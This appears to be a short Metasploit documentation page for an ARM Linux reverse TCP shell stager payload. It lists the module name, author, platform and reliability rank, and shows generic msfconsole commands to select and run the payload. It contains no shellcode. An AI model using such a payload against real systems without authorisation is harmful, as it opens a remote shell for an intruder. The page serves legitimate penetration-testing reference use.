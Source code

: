 ## Linux dup2 Command Shell, Reverse TCP Stager

dup2 socket in r12, then execve. Connect back to the 
attacker


## Module Name
payload/linux/armle/shell/reverse_tcp

## Authors
* nemo <nemo[at]felinemenace.org>





## Platforms
* linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/armle/shell/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    